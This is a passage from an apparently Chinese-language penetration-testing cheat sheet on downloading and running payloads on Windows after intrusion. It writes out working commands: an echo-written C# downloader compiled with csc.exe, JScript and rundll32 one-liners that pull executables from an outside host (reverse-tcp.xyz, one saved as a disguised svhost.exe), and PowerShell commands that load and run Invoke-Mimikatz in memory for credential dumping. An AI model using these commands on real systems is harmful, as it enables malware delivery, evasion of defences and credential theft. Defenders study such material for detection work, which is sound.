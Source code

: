 #### CSC

csc.exe是微软.NET Framework 中的C#编译器，Windows系统中默认包含，可在命令行下将cs文件编译成exe

当然思路还是将cs文件echo写入目标系统

```powershell
echo using System.Net;class WebDL { static void Main(string[] args){System.Net.WebClient client = new WebClient();client.DownloadFile(args[0],args[1]);}} > c:\windows\temp\dl.cs
```

然后调用csc.exe编译cs文件并执行

```powershell
c:\windows\microsoft.net\framework\v3.5\csc /out:c:\windows\temp\dl.exe c:\windws\temp\dl.cs
c:\windows\temp\dl.exe http://reverse-tcp.xyz/svhost.exe c:\windows\temp\svhost.exe
```

#### JScript

以下就是一个js的downloader，和vbs的一样可以直接echo写入服务器执行

```powershell
varObject = WScript.CreateObject("MSXML2.XMLHTTP");Object.open("GET","http://reverse-tcp.xyz/test.exe",false);Object.send();if(Object.Status == 200){varStream = WScript.CreateObject("ADODB.Stream");Stream.Open();Stream.Type = 1;Stream.Write(Object.ResponseBody);Stream.SaveToFile("E:\\test\\ssss2.exe", 2);Stream.Close();}
```

也可以配合rundll32一句话完成下载

```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();Object=new%20ActiveXObject("Microsoft.XMLHTTP");Object.open("GET","http://reverse-tcp.xyz/test.exe",false);Object.send();if(Object.Status==200){Stream=new%20ActiveXObject("ADODB.Stream");Stream.Open();Stream.Type=1;Stream.Write(Object.ResponseBody);Stream.SaveToFile("E:\\test\\ssss2.exe",2);Stream.Close();}
```

#### CURL/WGET

Windows本身是没有curl和wget的，但是在一些其他软件当中会集成curl.exe，比如说Cmder当中，如果在渗透过程当中遇到了Cmder，那就完全可以通过curl来完成下载操作。

### 执行方法

#### Powershell

对于某些无文件渗透场景，powershell可以直接加载到内存执行是很常见的

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.c
om/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz
powershell -exec bypass -c "iwr https://gist.githubusercontent.com/Urahara3389/d83b6f9cce
df9aa53f70d987360dbc0e/raw/53ad790f87e0fd2c9449d5359358cd251c39297a/calc.ps1|iex"
Get-Content script.ps1 | iex
```

#### SyncAppvPublishingServer
